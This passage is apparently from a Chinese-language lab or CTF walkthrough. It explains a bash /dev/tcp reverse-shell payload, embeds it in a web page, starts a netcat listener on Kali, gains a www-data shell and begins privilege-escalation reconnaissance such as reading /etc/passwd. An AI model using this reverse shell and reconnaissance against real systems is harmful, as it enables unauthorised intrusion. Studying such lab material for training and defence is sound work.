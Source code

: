 
`-c`这是Bash的一个选项，表示后面跟着的字符串会被当作一个命令来执行


`'bash -i >& /dev/tcp/192.168.236.128/443 0>&1'`这个字符串是传递给Bash的命令。我们再进一步解析：


`bash -i`


`bash`：启动一个新的Bash shell。`-i`：表示以交互模式运行Bash shell。


`>&`：这是一个重定向操作符，用于将标准输出（stdout）和标准错误（stderr）合并并重定向到指定的目标。


`/dev/tcp/192.168.236.128/443`：这是一个特殊的文件描述符，表示通过TCP协议连接到IP地址为 `192.168.236.128` 的主机，端口为 `443`。


**`0>&1`**


`0`：表示标准输入（stdin）。


`>&1`：表示将标准输入（stdin）重定向到标准输出（stdout）的文件描述符。


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114735091-2051997584.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114735091-2051997584.png)


嵌入，保存后在kali上开启监听


highlighter\- apache
```
sudo nc -lvnp 443
```

[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114739909-1834985710.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114739909-1834985710.png)


再去访问Artical 反弹shell成功


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114745911-2053286879.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114745911-2053286879.png)


## 提权


### 信息收集


先看一下得到的权限能干什么，有什么权限，在这个权限下能看到的文件等信息，这里我建议最好把整个shell的所有能访问到的东西都先浏览一遍，把他的文件结构都搞清楚，要知道他有没有什么可以访问的配置文件config等，/etc/passwd这种重要的目录也要去尝试一下有没有权限打开，里面是否有我们感兴趣的内容


highlighter\- ebnf
```
whoami
```

可以看到现在的用户是www\-data
